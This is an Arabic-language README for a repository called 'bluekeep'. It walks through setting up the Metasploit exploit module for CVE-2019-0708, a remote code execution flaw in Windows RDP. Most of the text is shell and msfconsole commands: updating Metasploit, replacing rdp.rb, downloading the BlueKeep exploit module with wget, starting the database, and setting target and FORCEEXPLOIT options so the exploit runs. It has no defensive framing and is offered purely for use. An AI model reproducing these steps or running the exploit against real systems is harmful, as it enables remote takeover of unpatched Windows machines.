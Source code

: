 # bluekeep
 CVE- 2019-0708 هذه هي ثغرة الارديبي الاخيرة رقمها
 
 
للثغرة عدة مشاكل ولغاية لحظة بدء هذا المشروع لم يقوم رابد7 الى الان بوضعها في تحديثات الميتا سبلويت وهذا الاصدر فيها عدة مشاكل




طريقة تنصيب بسيطة يجب ان تقوم بتحديث الميتا سبلويت الى اخر اصدار عن  طريق جميع هذه الاوامر
msfupdate

apt-get update

apt-get upgrade


ثم تنفيذ الاوامر الاتية

cd cd /usr/share/metasploit-framework/lib/msf/core/exploit/


rm rdp.rb

wget https://raw.githubusercontent.com/rapid7/metasploit-framework/edb7e20221e2088497d1f61132db3a56f81b8ce9/lib/msf/core/exploit/rdp.rb


mkdir /usr/share/metasploit-framework/modules/exploits/windows/rdp/


cd /usr/share/metasploit-framework/modules/exploits/windows/rdp/

wget https://raw.githubusercontent.com/rapid7/metasploit-framework/edb7e20221e2088497d1f61132db3a56f81b8ce9/modules/exploits/windows/rdp/cve_2019_0708_bluekeep_rce.rb


الان تم التنصيب يجب اعادة تشغيل قواعدالبيانات وتشغيل الميتا سبلويت لاستخدمها عن طريق الاوامر الاتية 
service postgresql start

msfdb init 

msfconsole

الان بعض الاوامر المهمة لدخول للثغرة واستخدامها


set target 1


set FORCEEXPLOIT true



هذه هي اهم الاوامر المهمة بعد الدخول للثغرة لتفادي بعض الاخطاء

